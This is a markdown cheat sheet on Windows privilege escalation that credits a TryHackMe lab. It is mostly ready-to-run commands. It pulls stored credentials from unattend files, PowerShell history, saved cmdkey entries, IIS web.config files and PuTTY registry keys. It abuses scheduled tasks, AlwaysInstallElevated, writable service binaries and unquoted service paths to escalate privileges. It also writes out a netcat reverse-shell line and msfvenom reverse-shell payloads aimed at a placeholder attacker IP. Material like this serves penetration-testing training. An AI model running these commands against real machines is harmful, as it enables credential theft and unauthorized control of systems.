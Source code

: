 # Windows Privilege Escalation

* [Unattended Windows Installations](#unattended-windows-installations)
* [Powershell History](#powershell-history)
* [Saved Windows Credentials](#saved-windows-credentials)
* [Internet Information Services Configuration](#internet-information-services-configuration)
* [Retrieve Credentials from PuTTY](#retrieve-credentials-from-putty)
* [Scheduled Tasks](#scheduled-tasks)
* [AlwaysInstallElevated](#alwaysinstallelevated)
* [Insecure Permissions on Service Executable](#insecure-permissions-on-service-executable)
* [Unquoted Service Paths](#unquoted-service-paths)

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Unattended Windows Installations

Check these locations for credentials:

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

********************************************

## Powershell History
From Command Prompt:
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
From PowerShell:
```
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

********************************************

## Saved Windows Credentials

List saved credentials:
```
cmdkey /list
```
While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the runas command and the /savecred option:
```
runas /savecred /user:admin cmd.exe
```

********************************************

## Internet Information Services Configuration
* (ISS)

Can find "web.config" in one of the following locations:
```
C:\inetpub\wwwroot\web.config
```
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
Quick way to find database connection strings on the file:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

********************************************

## Retrieve Credentials from PuTTY

Search under the following registry key for ProxyPassword:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

********************************************

## Scheduled Tasks

List scheduled tasks with this command:
```
schtasks
```
* Look for "Task to Run" and "Run as User"
* Look at file executable permissions with:
```
icacls [FILE-PATH]
```
* Look for (F) in BUILTIN\Users
* Echo payload into file example:
```
echo c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT] > C:\tasks\schtask.bat
```
* Start a listener on attack machine
* Run the task:
```
schtasks /run /tn [TASK-NAME]
```
Check to see if the reverse shell connected

********************************************

## AlwaysInstallElevated

This method requires two registry values to be set. You can query these from the command line using the commands below:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACK-IP] LPORT=[ATTACK-PORT] -f msi -o malicious.msi
```
As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

********************************************

## Insecure Permissions on Service Executable

Query service configuration with:
```
sc qc [SERVICE-NAME]
```
Note the BINARY_PATH_NAME and check the file permissions with:
```
icacls [BINARY-PATH-NAME]
```
* Look for (F)ull or (M)odify rights in various groups
* Create payload with:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER-IP] LPORT=[ATTACK-PORT] -f exe-service -o [FILE-NAME].exe
```
* Transfer the file to target machine and start a listener on attack machine
* Restart the insecure service:
```
sc stop [SERVICE-NAME]
```
```
sc start [SERVICE-NAME]
```
* There should be a shell on the attack machine
* Note: PowerShell has "sc" as an alias to "Set-Content", therefore you need to use "sc.exe" in order to control services with PowerShell this way.

********************************************

## Unquoted Service Paths

If there is is a program installed on the machine in a folder that is world writable (not "Program Files" or "x86 Program Files"), and it has spaces and not quoted when running "sc.exe qc [PROGRAM-FILE-PATH]" , you can create a malicious payload under a new executable with a shorter name and it will run when the longer name program runs. For example: if there is a program called "Disk Shorter.exe" (unquoted), you can create a new executable called "Disk.exe" and it will run when "Disk Shorter.exe" is called. use the same msfvenom command as above to generate a malicious payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER-IP] LPORT=[ATTACK-PORT] -f exe-service -o [FILE-NAME].exe
```

********************************************

### Reference:
* https://tryhackme.com/room/windowsprivesc20
